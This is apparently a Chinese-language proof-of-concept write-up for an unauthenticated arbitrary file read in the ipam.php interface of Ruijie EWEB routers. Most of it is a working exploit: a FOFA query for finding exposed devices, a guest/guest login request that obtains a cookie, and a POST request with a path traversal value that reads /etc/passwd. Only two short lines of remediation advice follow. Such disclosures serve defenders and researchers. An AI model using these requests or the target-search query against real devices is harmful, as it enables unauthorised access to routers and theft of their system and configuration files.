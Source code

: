 # 一、漏洞概述

锐捷EWEB路由器 ipam.php 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

# 二、资产测绘

FOFA:

```
title="锐捷网络-EWEB网管系统"
```

![image-20250712094942740](锐捷EWEB路由器 ipam.php 任意文件读取漏洞.assets/image-20250712094942740.png)

# 三、漏洞复现

1、获取可用cookie

```
POST /ddi/server/login.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Connection: close
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

username=guest&password=guest?
```

![image-20250712095010567](锐捷EWEB路由器 ipam.php 任意文件读取漏洞.assets/image-20250712095010567.png)

2、利用可用cookie读取文件

```
POST /ddi/server/ipam.php?a=getIpamJson HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Connection: close
Content-Length: 27
Content-Type: application/x-www-form-urlencoded
Cookie: 9gc7sddr7vh3ghigv8jciphps4; user=guest; RUIJIEID=9gc7sddr7vh3ghigv8jciphps4
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

path=../../../../etc/passwd
```

![image-20250712095045921](锐捷EWEB路由器 ipam.php 任意文件读取漏洞.assets/image-20250712095045921.png)

# 四、修复建议

1、关闭互联网暴露面或接口设置访问权限

2、升级至安全版本
